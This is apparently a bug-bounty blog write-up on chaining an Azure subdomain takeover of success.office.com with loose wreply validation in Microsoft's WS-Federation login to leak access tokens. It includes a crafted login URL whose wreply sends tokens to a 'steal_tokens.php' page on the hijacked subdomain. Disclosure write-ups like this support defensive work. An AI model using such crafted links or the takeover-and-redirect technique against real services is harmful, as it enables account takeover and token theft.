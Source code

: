 ```yaml
---
layout: post
title: Leaking access tokens from Microsoft apps chaining two vulnerabilities
---
```


---




### First Issue:

During the initial recon I retrieved the list of all possible subdomains of office.com pointing to many Azure instances. One of them was success.office.com which was not getting resolved to any IP address, but had a CNAME pointing to an Azure web app instance `successcenter-msprod`. 
Chances are that you can takeover an Azure instance if the domain is not getting resolved to it. So I tried to create a web app with the name `successcenter-msprod` in my Azure portal
and it was accepted as a valid name. In other words, the previous instance with that name had been removed and is now free.
Which basically means, whatever we host on `successcenter-msprod`; `success.office.com` would point to it as the CNAME record specifies. 

### Second Issue:

Microsoft uses WS Federation for it's implementation of a centralized login system for most of the applications including Outlook, Sway, Microsoft Store etc. WS Fed is similar to Oauth. 
`wreply` in WS Fed is the counterpart of `redirect_url` in Oauth. If you read about Nir Goldshlager's <a href="http://nirgoldshlager.blogspot.com/">Facebook Oauth bug series</a>, you will understand
the dangers of not using an exact URL match (or not properly validating) for wreply or redirect_url wherever possible. Here in this case, Microsoft 
was allowing any subdomains of office.com (*.office.com) to be a valid wreply URI. 


Since one of their subdomain was in my control, I could use the domain as a valid `wreply` url and was able to leak the access tokens:

`https://login.live.com/login.srf?wa=wsignin1.0&rpsnv=13&ct=1529775349&rver=6.7.6643.0&wp=MBI_SSL&wreply=https://success.office.com/steal_tokens.php&lc=1033&id=292666&lw=1&fl=easi2&pcexp=true&uictx=me`

Basically, if any user who has already been authenticated (or going to authenticate), "clicked" on a crafted link with the above changes, the tokens would get leaked and this token can be exchanged for a session token and subsequently an account takeover would result.


<img src="http://139.59.39.57/images/outlook.jpg" />

<a href="https://www.safetydetective.com/blog/microsoft-outlook/"></a>

